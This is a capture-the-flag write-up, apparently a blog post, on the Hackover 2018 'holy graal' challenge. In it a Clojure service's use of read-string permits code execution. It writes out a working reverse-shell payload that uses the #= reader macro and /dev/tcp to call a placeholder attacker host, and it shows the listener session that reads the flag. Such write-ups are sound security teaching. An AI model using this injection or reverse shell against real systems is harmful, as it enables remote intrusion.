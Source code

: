 ```yaml
---
layout: post
title: ctf 0x02 / holy graal [PWN]
category: ctf
tags: [ctf, writeup, clojure, shellraisers, hackover18, pwn, shell, interactive]
---
```

## Shellraisers and the Holy Graal


> Everybody keeps talking about this new JIT. I think it is more secure, wouldn't you agree?
>   
> compiled with: native-image -H:+ReportUnsupportedElementsAtRuntime

We get the [main.clj](https://ctf.hackover.de/files/2d2f2aec9a9f4917d25408680f5e60bd/main.clj) file, which is a Clojure script! Oh boy, that's another language I had nothing to do with (and neither had anyone from our team as far as I know). That does, however, explain the challenge title! "holy graal", since it's probably running on the [Graal VM](https://www.graalvm.org/). Okay, but back to the topic.

<!--more-->

Other than the script, we get access to a host that exposes something like an interactive shell:


```
Welcome to HolyGraal version 1.0.0-rc1
Everybody knows that keeping track of brackets is hard in LISP languages.
We now introduce: verify brackets as a service.
1: Send string
2: Exit
1
()
Good job, you know how to balance brackets. Now go, get the flag.
1: Send string
2: Exit
1
((())
You need to work on your balancing skills.
1: Send string
2: Exit
```

Hm... since it's a Lisp-like language, how is the bracket balance actually verified? Let's take a look at the code:

```clojure
(defmulti option identity)
(defmethod option "1" [_]
  (try
    (-> (read-line)
        (read-string))
    (println "Good job, you know how to balance brackets. Now go, get the flag.")
    (catch Exception e
      (println "You need to work on your balancing skills."))))
```

Okay, sooo... that reads a line and then... wait, what the hell is `read-string`? Let's check the docs:

> Reads one object from the string s. Optionally include reader
options, as specified in read.

Hey, that's pretty cool! You know what's even *more* cool? The next line:

>  Note that read-string can execute code (controlled by *read-eval*),
and as such should be used only with trusted sources.

Now we're talking! I've actually done a decent amount of information digging (also known as Google searching), that resulted in me findings [this discussion](https://groups.google.com/forum/#!topic/clojure/YBkUaIaRaow/discussion). It shows a simple PoC for an RCE payload via `read-string`:

```clojure
user=> (read-string "#=(clojure.java.shell/sh \"echo\" \"hi\")") 
{:exit 0, :out "hi\n", :err ""}
```

We don't get our output back in the challenge, but this isn't exactly a problem, is it? At this point I grabbed a couple of revshell ideas I had from [ub3rsec's cheatsheet](https://ub3rsec.github.io/pages/rev-shell-cheatsheet.html) and from [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for Java (as Clojure is JVM-based) and mixed them with the PoC above to get this:

```clojure
#=(clojure.java.shell/sh "/bin/bash" "-c" "exec 5<>/dev/tcp/attackerip/attackerport;cat <&5 | while read line; do $line 2>&5 >&5; done")
```

Then I just ran the listener on my box, dropped the payload and waited for the session to call home. After it connected I read the `flag.txt` file and got the flag:

```
$ nc -nlvp 31337
Listening on [0.0.0.0] (family 0, port 31337)
Connection from [188.166.163.88] port 31337 [tcp/*] accepted (family 2, sport 41364)
ls
flag.txt
holy_graal-1.3.3.7-standalone
cat flag.txt
hackover18{n3v3r_tru5s7_u53r_1npu7}
```

**Flag:** `hackover18{n3v3r_tru5s7_u53r_1npu7}`

Can't deny, I enjoyed that one ;-)

Cheers!
